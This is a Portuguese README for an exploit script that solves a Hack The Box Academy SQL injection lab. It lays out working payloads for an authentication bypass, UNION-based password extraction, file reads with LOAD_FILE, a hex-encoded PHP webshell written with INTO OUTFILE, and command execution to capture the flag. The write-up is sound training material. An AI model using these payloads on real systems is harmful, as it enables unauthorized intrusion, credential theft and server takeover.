

# CHATTR GMBH — SQL Injection Exploit

> **HTB Academy** • Skills Assessment • SQL Injection Fundamentals  
> **Exploit_Author:** LK10   

<div align="center">




</div>

---

## Resumo

Exploit automatizado que demonstra uma **cadeia completa de SQL Injection**: bypass de autenticação → extração de dados → RCE → captura de flag.

| Componente | Detalhe |
|------------|---------|
| **Alvo** | chattr GmbH (aplicação de chat) |
| **Vetor** | Parâmetro `q` (busca de mensagens) |
| **Closure** | `')` — fecha aspas + parêntese |
| **Colunas** | 4 (visíveis: 3 e 4) |
| **Privilégio** | FILE (leitura/escrita no filesystem) |

---

## Uso

```bash
python3 pwn.py <ip:porta>

# Modo verbose (exibe requisições/respostas HTTP raw)
python3 pwn.py <ip:porta> -v
python3 pwn.py <ip:porta> --verbose
```

Sem dependências externas — apenas Python 3.8+ stdlib.

---

## Cadeia de Ataque

### 1. Bypass de Autenticação

```sql
' OR '1'='1
```

A aplicação valida códigos de convite assim:

```sql
SELECT * FROM codes WHERE code = '{input}'
```

Com a injeção, a condição `WHERE` sempre retorna `true`:

```sql
SELECT * FROM codes WHERE code = '' OR '1'='1'
                                       ─────────
                                       sempre verdadeiro
```

### 2. Extração via UNION

O parâmetro de busca `q` é vulnerável. A query original:

```sql
SELECT * FROM messages WHERE (content LIKE '%{q}%')
```

Precisamos:
1. **Fechar** a sintaxe aberta (`')`)
2. **Igualar** o número de colunas (`SELECT 1,2,3,4`)
3. **Injetar** na coluna visível (posição 3)

```sql
') UNION SELECT 1,2,(SELECT password FROM Users WHERE username='admin'),4-- -
```

**Leitura de arquivos** com `LOAD_FILE()`:

```sql
') UNION SELECT 1,2,LOAD_FILE('/etc/nginx/sites-enabled/default'),4-- -
```

### 3. Webshell via INTO OUTFILE

Escrevemos uma webshell no diretório web:

```sql
') UNION SELECT 1,2,0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e,4
   INTO OUTFILE '/var/www/██████/shell.php'-- -
```

O payload hex decodifica para:

```php
<?php system($_GET["cmd"]); ?>
```

> Hex evita problemas de escape com aspas na query.

### 4. RCE → Flag

```bash
GET /shell.php?cmd=ls%20/              # reconhecimento
GET /shell.php?cmd=cat%20/flag_*.txt   # captura
```

---

## Arquitetura

```ruby
pwn.py
│
├── Term        Códigos ANSI (cores, cursor)
├── Spinner     Animação threaded de loading
├── UI          Renderização do terminal
├── Response    Dataclass de resposta HTTP
├── HTTP        Cliente HTTPS raw (http.client + ssl)
├── SQLi        Engine de injeção
├── Results     Container de resultados
│
├── exploit()   Orquestração das 4 fases
└── main()      Entry point + arg parsing
```

---

## Conceitos-Chave

### SQL Injection

Ocorre quando input do usuário é concatenado diretamente na query sem sanitização:

```python
# VULNERÁVEL
query = f"SELECT * FROM users WHERE name = '{user_input}'"

# SEGURO (prepared statement)
cursor.execute("SELECT * FROM users WHERE name = ?", (user_input,))
```

### Tipos de SQLi

| Tipo | Característica | Técnica |
|------|----------------|---------|
| **In-band** | Resultado visível na resposta | UNION, Error-based |
| **Blind** | Sem output direto | Boolean, Time-based |
| **Out-of-band** | Canal externo | DNS exfiltration |

### Privilégio FILE

Permite `LOAD_FILE()` e `INTO OUTFILE`. Verificação:

```sql
SELECT privilege_type FROM information_schema.user_privileges
WHERE grantee LIKE '%current_user%' AND privilege_type = 'FILE'
```

---

## Estrutura do Repositório

```
CHATTR-SQLI-HTB/
├── pwn.py              # exploit principal
├── pwn-redacted.py     # versão com respostas censuradas
├── CHATTRGMBH[HTB].png # screenshot
├── showcase.gif        # demonstração animada
└── README.md           # este arquivo
```

---

## Referências

- [OWASP — SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger — SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [HackTricks — SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

---

<div align="center">

**Apenas para fins educacionais e testes autorizados.**

MIT License

</div>
